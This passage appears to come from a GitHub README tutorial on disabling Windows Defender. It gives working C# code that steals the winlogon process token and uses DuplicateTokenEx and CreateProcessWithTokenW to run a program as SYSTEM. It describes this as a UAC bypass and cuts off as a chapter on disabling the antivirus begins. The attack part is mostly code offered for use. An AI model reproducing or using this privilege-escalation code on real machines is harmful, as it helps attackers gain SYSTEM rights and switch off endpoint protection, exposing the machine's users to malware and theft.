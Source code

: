 - OpenProcessToken() -- Open the process token with the TOKEN_DUPLICATE access level (we get the token handle at the output)
- STARTUPINFO -- Set the parameters for starting the process
- DuplicateTokenEx() -- Duplicate the token with winlogon and write it down
- CreateProcessWithTokenW() -- Starting our process .exe with a token stolen from winlogon
- Congratulations, you are great

```
string procTostart = Assembly.GetEntryAssembly().Location;
            Process process = Process.GetProcessesByName("winlogon")[0];
            IntPtr procHandle = process.Handle;
            IntPtr tokenHandle = IntPtr.Zero;

            WinApi.OpenProcessToken(procHandle, 0x0002, out tokenHandle);

            WinApi.STARTUPINFO SINFO = new WinApi.STARTUPINFO();
            SINFO.dwFlags = 1;
            SINFO.wShowWindow = 1;

            WinApi.PROCESS_INFORMATION PINFO;

            WinApi.SECURITY_ATTRIBUTES SECA = new WinApi.SECURITY_ATTRIBUTES();

            IntPtr doubleDuplicateToken = IntPtr.Zero;

            WinApi.DuplicateTokenEx(tokenHandle, 0x2000000, ref SECA, 2, WinApi.TOKEN_TYPE.TokenPrimary, out doubleDuplicateToken);

            WinApi.CreateProcessWithTokenW(doubleDuplicateToken, WinApi.LogonFlags.NetCredentialsOnly, null, procTostart, WinApi.CreationFlags.DefaultErrorMode, IntPtr.Zero, null, ref SINFO, out PINFO);
```

### Let's make an interim result:

We forced our program to run on behalf of SYSTEM, bypassing UAC at the same time.

Let's see what happened in the real test.



https://github.com/EvilGreys/Disable-Windows-Defender-/assets/143311596/fff14f04-6d09-438b-a29a-c1d065cd77b9


Actually, as you can see in the demonstration, the initial process is started without administrator rights.

- Then, a UAC bypass is applied and a second process with elevated rights is opened
- The second process, in turn, launches the last .exe, which has both administrator rights and is run on behalf of the system.

At this point, we have fulfilled all the conditions for editing the privileges of the system process and are ready to implement disabling Windows Defender.

<h4 align="center">CHAPTER 3: DISABLING THE ANTIVIRUS</h4>
<p align="center">
